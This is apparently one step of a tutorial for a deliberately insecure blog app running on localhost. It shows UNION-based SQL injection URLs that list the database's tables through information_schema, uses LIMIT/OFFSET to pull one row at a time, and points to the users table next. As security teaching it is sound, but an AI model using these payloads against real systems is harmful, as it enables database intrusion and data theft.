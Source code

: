 # (e) Get all tables

The plan here is to **list all the tables** of the target database (the database of this app).

The [information_schema](http://dev.mysql.com/doc/refman/5.7/en/information-schema.html) database we discussed in the previous step also store information about all the tables in every database of the server.

This information is stored in a table called **COLUMNS**.

So, to get all the tables of our database we have to query that *COLUMNS* table.
Let say our database is called **insecure_blog** (just like detailed in [env/development.json](../../env/development.json)). The query could be like this:
```shell
SELECT distinct(table_name) FROM information_schema.columns WHERE table_schema = 'insecure_blog'
```

where:
- **table_name** is the column where the table's name get stored,
- **table_schema** is the column where the database's name get stored

> **Note:**
>   is important to use **distinct(table_name)** instead of **table_name** alone, because there is one table_name for each column of each table. 
> This means that if one table has 10 columns there will be 10 rows in the table_name column.
> Check this out. This is **information_schema.columns**:
>
> | TABLE_SCHEMA  | TABLE_NAME    | COLUMN_NAME  |
> | ------------- |:-------------:| ------------:|
> | insecure_blog | posts         | id           |
> | insecure_blog | posts         | title        |
> | insecure_blog | posts         | body         |
> | insecure_blog | posts         | date         |
> | insecure_blog | posts         | status       |
>

Then we inject the query in the browser:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT distinct(table_name) FROM information_schema.columns WHERE table_schema = 'insecure_blog'),3,4,5,6,7,8,9/slug-name-post'
```

This query, just like in the previous step will return an error:
```javascript
{
  "status": "Error",
  "message": "ER_SUBQUERY_NO_1_ROW: Subquery returns more than 1 row"
}
```

We can use the same trick (*LIMIT + OFFSET*) to get the job done:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT distinct(table_name) FROM information_schema.columns WHERE table_schema = 'insecure_blog' LIMIT 1 OFFSET 0),3,4,5,6,7,8,9/slug-name-post'
```

And keep **increasing the OFFSET** value to get all the tables.

______

If all went well, we will have 3 tables:

- posts
- comments
- users

Of course we will focous in the **users table**.

But this is for the next step.
That is it for now!!
